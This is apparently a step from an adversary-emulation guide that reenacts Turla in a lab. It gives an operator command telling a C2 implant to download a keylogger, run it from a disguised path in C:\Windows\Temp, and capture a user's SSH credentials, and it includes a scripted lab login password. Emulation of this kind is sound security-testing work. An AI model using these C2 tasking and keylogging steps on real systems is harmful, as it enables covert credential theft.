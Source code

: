 ### :microscope: Cited Intelligence

* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments>
* <https://www.welivesecurity.com/2019/05/29/turla-powershell-usage/>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

## Step 8 - Credential Access on Admin Host

:microphone: `Voice Track:`

Step 8 emulates Turla dropping a custom keylogger binary (`wingtsvcupdt.exe`) on
`Adalwolfa`'s workstation and harvesting credentials from the system.

Once the tools have been dropped by the CARBON-DLL, the keylogger is executed
and begins logging keystrokes to `%temp%\~DFA512.tmp` The keylogger is used
to collect SSH credentials that `Adalwolfa` was using on their system while the
keylogger was running.

Meanwhile, Adalwolfa is using their Edge browser session to visit the website
hosted by the Apache server to check one of the pages. The user then opens
PowerShell and connects to the Apache server via SSH, where their plaintext
credentials are captured by the keylogger. `Adalwolfa` then navigates to the
directory containing the webpage file on the Apache server and opens the file
to make a small change.

---

### :biohazard: Procedures

* From your Kali C2 server terminal window, task the CARBON-DLL on Adalwolfa's workstation to download and execute the
keylogger binary in the background:
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 0, "payload": "keylogger.exe", "payload_dest": "C:\\Windows\\Temp\\wingtsvcupdt.exe", "cmd": "C:\\Windows\\Temp\\wingtsvcupdt.exe -r"}'
```

:arrow_right: Wait 1 minute and then return to your RDP session to `khabibulin (10.20.20.104)` as `adalwolfa`.

* From the workstation, as the `Adalwolfa` user account:
  * Open Edge.
  * :heavy_exclamation_mark: **Type in full, do not copy or autocomplete,** <http://kagarov/index.html> into the address bar and press enter.

* Open a PowerShell terminal and **type do not copy** the SSH command:

ssh adalwolfa@10.20.10.23

* **Type do not copy** the SSH password `Password2!` when prompted.
